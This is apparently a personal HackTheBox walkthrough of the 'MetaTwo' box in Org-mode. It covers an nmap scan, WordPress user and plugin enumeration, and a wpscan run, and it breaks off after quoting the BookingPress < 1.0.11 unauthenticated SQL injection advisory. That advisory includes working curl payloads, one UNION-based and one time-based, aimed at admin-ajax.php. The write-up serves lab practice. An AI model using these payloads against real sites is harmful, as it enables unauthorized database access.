

:PROPERTIES:
:ID:       aee06532-d97e-4bfa-8d35-6e5f30e5f957
:ROAM_TAGS:
:END:
#+title: MetaTwo
#+SETUPFILE: /home/unseen/Documents/Notes/org/roam/org-setup.org

#+CREATED: [2022-12-17 12:03:14]
#+LAST_MODIFIED: [2022-12-19 Mon 03:35]
#+description: MetaTwo HackTheBox Walk through.
#+filetags: sqli
+ [[id:c72d4e02-0e32-424c-b4b3-c471adbf4598][Index]]
* MetaTwo
I start out by scanning the host

** Nmap Scan
#+begin_example
# Nmap 7.92 scan initiated Wed Nov  2 23:56:39 2022 as: nmap -A -oA scans/10.10.11.186 10.10.11.186
Nmap scan report for 10.10.11.186
Host is up (0.034s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE    VERSION
21/tcp open  tcpwrapped
22/tcp open  ssh        OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey:
|   3072 c4:b4:46:17:d2:10:2d:8f:ec:1d:c9:27:fe:cd:79:ee (RSA)
|   256 2a:ea:2f:cb:23:e8:c5:29:40:9c:ab:86:6d:cd:44:11 (ECDSA)
|_  256 fd:78:c0:b0:e2:20:16:fa:05:0d:eb:d8:3f:12:a4:ab (ED25519)
80/tcp open  http       nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://metapress.htb/
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=11/2%OT=22%CT=1%CU=34702%PV=Y%DS=2%DC=T%G=Y%TM=636303D
OS:3%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M54DST11NW7%O2=M54DST11NW7%O3=M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST1
OS:1NW7%O6=M54DST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN
OS:(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT      ADDRESS
1   35.89 ms 10.10.14.1
2   36.02 ms 10.10.11.186

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov  2 23:57:07 2022 -- 1 IP address (1 host up) scanned in 27.81 seconds
#+end_example
from the nmap scan you see there is a hostname ~metapress.htb~. put that in your hosts files

** HTTP service
On the http service there is a wordpress install.

#+DOWNLOADED: screenshot @ 2022-12-13 18:34:32

*** Wordpress Enumeration
**** Username enumeration
First thing i try is searching by the author tag, i dont see any

Going to
#+begin_example
http://metapress.htb/?author=1
#+end_example
Takes me to
#+begin_example
http://metapress.htb/author/admin/
#+end_example
So admin user is named ~admin~.

I want to be sure there is no other users so i check the wp-json api
#+begin_example
http://metapress.htb/wp-json/wp/v2/users
#+end_example

#+begin_src json
[
  {
    "id": 1,
    "name": "admin",
    "url": "http://metapress.htb",
    "description": "",
    "link": "http://metapress.htb/author/admin/",
    "slug": "admin",
    "avatar_urls": {
      "24": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=24&d=mm&r=g",
      "48": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=48&d=mm&r=g",
      "96": "http://2.gravatar.com/avatar/816499be5007457d126357a63115cd9c?s=96&d=mm&r=g"
    },
    "meta": [],
    "_links": {
      "self": [
        {
          "href": "http://metapress.htb/wp-json/wp/v2/users/1"
        }
      ],
      "collection": [
        {
          "href": "http://metapress.htb/wp-json/wp/v2/users"
        }
      ]
    }
  }
]
#+end_src
Looks like its just admin user

**** Wpscan
So after i find out what users are on the box i start wpscan.

#+begin_example
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.22
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://metapress.htb/ [10.10.11.186]
[+] Started: Tue Dec 13 22:31:50 2022

Interesting Finding(s):

[+] robots.txt found: http://metapress.htb/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://metapress.htb/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://metapress.htb/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://metapress.htb/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.6.2 identified (Insecure, released on 2021-02-22).
 | Found By: Rss Generator (Aggressive Detection)
 |  - http://metapress.htb/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>
 |  - http://metapress.htb/comments/feed/, <generator>https://wordpress.org/?v=5.6.2</generator>

[i] The main theme could not be detected.

[i] No plugins Found.

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue Dec 13 22:31:58 2022
[+] Requests Done: 168
[+] Cached Requests: 3
[+] Data Sent: 49.928 KB
[+] Data Received: 131.045 KB
[+] Memory used: 207.496 MB
[+] Elapsed time: 00:00:07

#+end_example

Wp scan has found some usfule things like the fact ~/readme.html~ is there.
**** Readme.html
Checking the readme.html should be done whever you see it, it contains helpful info.

In this case i dont see much here

**** Plugin enumeration
Now wpscan did a poor job of finding plugins (maybe i should make my own?)

So from my notes there are a few ways of finding plugins
The best way is to check the html source

***** Checking the Html Source
Checking the source I find the theme is called ~twentytwentyone~ version 1.1
#+begin_example
http://metapress.htb/wp-content/themes/twentytwentyone/assets/css/print.css?ver=1.1
#+end_example
I do not see any vulns with the theme from my [[https://wpscan.com/theme/valentinus-twenty-twenty-one][Search online]].

Now lets check the plugins.
Thee is an events booker and that is certainly a plugin.
Going to the event booker and checking the source:

#+begin_src html
<head>
	<meta charset="UTF-8">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<title>Events – MetaPress</title>
<link rel="dns-prefetch" href="//metapress.htb">
<link rel="dns-prefetch" href="//s.w.org">
<link rel="alternate" type="application/rss+xml" title="MetaPress » Feed" href="http://metapress.htb/feed/">
<link rel="alternate" type="application/rss+xml" title="MetaPress » Comments Feed" href="http://metapress.htb/comments/feed/">
<link rel="stylesheet" id="twenty-twenty-one-style-css" href="http://metapress.htb/wp-content/themes/twentytwentyone/style.css?ver=1.1" media="all">
<link rel="stylesheet" id="twenty-twenty-one-print-style-css" href="http://metapress.htb/wp-content/themes/twentytwentyone/assets/css/print.css?ver=1.1" media="print">
<link rel="stylesheet" id="bookingpress_element_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_element_theme.css?ver=1.0.10" media="all">
<link rel="stylesheet" id="bookingpress_fonts_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/fonts/fonts.css?ver=1.0.10" media="all">
<link rel="stylesheet" id="bookingpress_front_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_front.css?ver=1.0.10" media="all">
<link rel="stylesheet" id="bookingpress_tel_input-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_tel_input.css?ver=1.0.10" media="all">
<link rel="stylesheet" id="bookingpress_calendar_css-css" href="http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/css/bookingpress_vue_calendar.css?ver=1.0.10" media="all">

</head>
#+end_src
I cut down on all the extra stuff, what you can see out of this, is that there is a plugin named ~bookingpress~.

*** BookingPress investigation :sqli:
Searching bookingpress right away shows that it is vulnerable to a unauthenticated [[id:81d62666-4ce8-4244-b498-739a680f9673][SQL Injection]].
**** BookingPress < 1.0.11 - Unauthenticated SQL Injection
 Description

#+begin_src
The plugin fails to properly sanitize user supplied POST data before it is used in a dynamically constructed SQL query via the bookingpress_front_get_category_services AJAX action (available to unauthenticated users), leading to an unauthenticated SQL Injection
#+end_src

***** Proof of Concept

#+begin_src
- Create a new "category" and associate it with a new "service" via the BookingPress admin menu (/wp-admin/admin.php?page=bookingpress_services)
- Create a new page with the "[bookingpress_form]" shortcode embedded (the "BookingPress Step-by-step Wizard Form")
- Visit the just created page as an unauthenticated user and extract the "nonce" (view source -> search for "action:'bookingpress_front_get_category_services'")
- Invoke the following curl command

curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'

Time based payload:  curl -i 'https://example.com/wp-admin/admin-ajax.php' \
  --data 'action=bookingpress_front_get_category_services&_wpnonce=8cc8b79544&category_id=1&total_service=1) AND (SELECT 9578 FROM (SELECT(SLEEP(5)))iyUp)-- ZmjH'
#+end_src
